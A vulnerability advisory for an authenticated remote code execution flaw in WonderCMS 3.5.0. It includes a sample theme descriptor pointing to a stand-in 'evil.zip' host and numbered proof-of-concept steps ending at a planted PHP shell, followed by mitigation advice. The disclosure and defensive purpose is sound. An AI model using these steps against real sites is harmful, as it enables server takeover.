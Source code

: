 # CVE-2025-57055: Authenticated Remote Code Execution in WonderCMS 3.5.0

## Vulnerability Mechanics

An authenticated Remote Code Execution (RCE) vulnerability exists in WonderCMS v3.5.0.

The issue stems from how the application handles **remote theme/module installations** via JSON descriptors. When an admin submits a remote JSON file referencing a ZIP archive, its contents are extracted to a web-accessible directory (e.g., `/themes/`). If the ZIP contains a PHP file, that file becomes accessible over the web and may be executed.

This behavior introduces RCE risk due to:

- Lack of validation or sanitization on ZIP contents.
- No restriction on file types extracted from remote sources.
- Web-accessibility of theme/plugin directories.

**Note:** Admin authentication is required, but default installations expose the admin password publicly (on the homepage), use password-only login, and do not enforce strong auth controls.

## Acceptance criteria for remote module/theme descriptors

WonderCMS will accept and attempt to install remote modules/themes if the submitted JSON descriptor matches the expected `wcms-modules.json` format. A descriptor that passes the format check (and points to a ZIP archive) will be fetched and its archive contents extracted into a web-accessible directory (e.g., `/themes/<name>/`) without further validation of file types.

**Example descriptor :**
```json
{
  "themes": {
    "SSRF": {
      "name": "FAKE",
      "repo": "https://example.com/",
      "zip": "https://example.com/evil.zip",
      "summary": "test",
      "version": "1.0.0",
      "image": "https://example.com/fake.png"
    }
  }
}
```

### Proof of Concept (PoC)
**Warning: Do not run on production systems. Only use authorized test environments.**
1. Obtain the admin password from the publicly exposed homepage of a default WonderCMS installation.

2. Log in to the admin panel.

3. Navigate to the theme installation section.

4. Provide the URL to a malicious JSON descriptor (e.g., hosted on an attacker-controlled server).

5. Initiate installation. The server will:

- Fetch the descriptor.
- Download the specified ZIP archive.

6. Install the downloaded malicious theme.

7. Access the extracted PHP shell (e.g., http://target.com/themes/<Theme_Name>/shell.php) to execute arbitrary commands.

(**Note:** Only perform these steps in a controlled test environment. Exploiting this vulnerability on live systems without authorization is illegal.)




## Vendor Response

- The vulnerability was reported to WonderCMS maintainers in July 2025.

- The maintainers acknowledged the report but noted that, in their view, this behavior is acceptable for administrators.

## Mitigation Guidance

To reduce exposure:

- **Restrict remote installation capabilities** to trusted sources (e.g., GitHub only).
- **Validate and sanitize ZIP contents** before extracting.
- **Harden authentication**:
  - Hide admin password post-installation.
  - Enforce username/password login.
  - Enable multi-factor authentication (if available).
- Prevent access to executable files inside `themes/` or `plugins/` via server configuration.

## References

- [WonderCMS GitHub](https://github.com/WonderCMS/wondercms)
- [OWASP A05:2021 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
- [CWE-434 – Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

## Disclaimer

This information is provided for defensive security research and educational purposes. Always get proper authorization before testing or disclosing vulnerabilities.

